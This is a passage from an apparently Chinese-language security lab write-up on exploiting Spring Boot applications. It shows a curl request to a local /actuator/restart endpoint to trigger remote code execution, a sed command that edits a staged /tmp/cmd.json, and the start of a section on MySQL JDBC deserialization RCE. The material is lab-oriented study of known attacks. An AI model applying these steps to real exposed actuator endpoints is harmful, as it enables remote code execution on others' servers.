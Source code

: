 成功设置。

**(2) 触发 RCE**

```plain
curl -H "content-Type:  application/json" -X POST http://localhost:9096/actuator/restart
```

过程出现了如下错误，执行完一次，需要新创建个其他函数，或者先删除掉。:

[![](assets/1711556137-61211532f47382bd0c7bfc146194ed0c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620111948-5e4eaaf0-d176-1.png)

```plain
sed -i "" s/T5/T6/g /tmp/cmd.json
```

同时要注意，命令执行 linux 和 window 的区别。如图所示，可以成功 RCE

[![](assets/1711556137-c6b6c96ab816717bda24db5a9fb6518d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620112006-695fb0a6-d176-1.png)

- - -

#### **4.mysql jdbc deserialization RCE**

```plain
cd springboot-mysql-jdbc-rce
mvn spring-boot:run
```

运行之前，需要配置一下数据库连接，要不然运行会失败的，这里我启用了我本地的 mysql。

[![](assets/1711556137-53aa639c82c25c6e11772a60a378c3c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620112019-70ffb00e-d176-1.png)
